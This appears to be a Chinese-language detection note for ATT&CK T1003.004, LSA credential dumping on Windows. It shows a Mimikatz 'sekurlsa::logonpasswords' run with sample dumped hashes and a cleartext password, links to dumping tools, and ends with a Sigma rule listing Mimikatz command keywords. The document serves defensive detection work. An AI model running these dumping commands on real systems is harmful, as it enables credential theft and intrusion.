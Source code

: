 # T1003-004-windows-基于LSA凭证获取

## 来自ATT&CK的描述

具有SYSTEM访问主机权限的对手可能会尝试访问本地安全机构（LSA）机密，其中可能包含各种不同的凭据材料，例如服务帐户的凭据。LSA机密存储在注册表中HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets。LSA机密也可以从内存中转储。

Reg可用于从注册表中提取。Mimikatz可用于从内存中提取秘密。

### LSA（Local Security Authority）

通过system权限访问主机lsass.exe进程，可以从中读取本地登录和域登录的明文密码。当服务在本地或域用户的上下文中运行时，其密码存储在注册表中。如果启用了自动登录，则此信息也将存储在注册表中。

本地安全机构子系统服务（LSASS）处理Windows主机中安全策略的实施。在从2000到Server 2008的Windows环境中，LSASS进程的内存以明文形式存储密码以支持WDigest和SSP身份验证。因此，Mimikatz等工具可以轻松检索密码。自Windows 8.1和Windows Server 2012的Microsoft为了增强系统的安全性，进一步阻止了LSASS以明文形式存储密码。

## 测试案例

你可以使用许多工具进行检索读取SAM文件：

- pwdump.exe
- Mimikatz
- gsecdump
- ······

或者，可以使用reg.exe从注册表中提取文件，并使用Creddump7收集凭据。

注意：由机制问题提取的密码是UTF-16编码的，这意味着它们以明文形式返回.Windows 10增加了对缓解中描述的LSA秘密的保护

## 检测日志

sysmon日志

windows security日志

## 测试复现

### 攻击方法：从lsass.exe程序内存中读取密码(administrator)

```dos
C:\mimikatz_trunk\x64>mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 246475 (00000000:0003c2cb)
Session           : RemoteInteractive from 2
User Name         : 1.205
Domain            : 1205-PC
Logon Server      : 1205-PC
Logon Time        : 2019/7/10 16:12:02
SID               : S-1-5-21-4083414316-2806399370-2225847366-1000
        msv :
         [00000003] Primary
         * Username : 1.205
         * Domain   : 1205-PC
         * LM       : 6ce1432e9b83da8da8eed815a197bd87
         * NTLM     : 6136ba14352c8a09405bb14912797793
         * SHA1     : b1ab7381d8e9799e407f1d4cb39e33b5d3e54f72
        tspkg :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@#
        wdigest :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@#
        kerberos :
         * Username : 1.205
         * Domain   : 1205-PC
         * Password : 1qazcde3!@
        ssp :
        credman :
```

## 测试留痕

暂无

## 检测规则/思路

### sigma规则

```yml
title: Mimikatz使用
description: 检测常见的mimikatz命令参数
tags:
    - attack.s0002
    - attack.t1003
    - attack.lateral_movement
    - attack.credential_access
logsource:
    product: windows
detection:
    keywords:
        Message:
        - "* mimikatz *"
        - "* mimilib *"
        - "* <3 eo.oe *"
        - "* eo.oe.kiwi *"
        - "* privilege::debug *"
        - "* sekurlsa::logonpasswords *"
        - "* lsadump::sam *"
        - "* mimidrv.sys *"
        - "* p::d *"
        - "* s::l *"
    condition: keywords
falsepositives:
    - Naughty administrators
    - Penetration test
level: critical
```

### 建议

对数据源要求较高，可适用范围为：2012及以上操作系统，需要开启审核策略；部署sysmon的Windows操作系统，进程创建日志。

## 参考推荐

MITRE-ATT&CK-T1003-004

<https://attack.mitre.org/techniques/T1003/004>

pwdump7

<http://passwords.openwall.net/b/pwdump/pwdump7.zip>

powershell

<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1>

mimikatz wiki

<https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump>

关于更多转储明文密码你可以参考

<https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/>

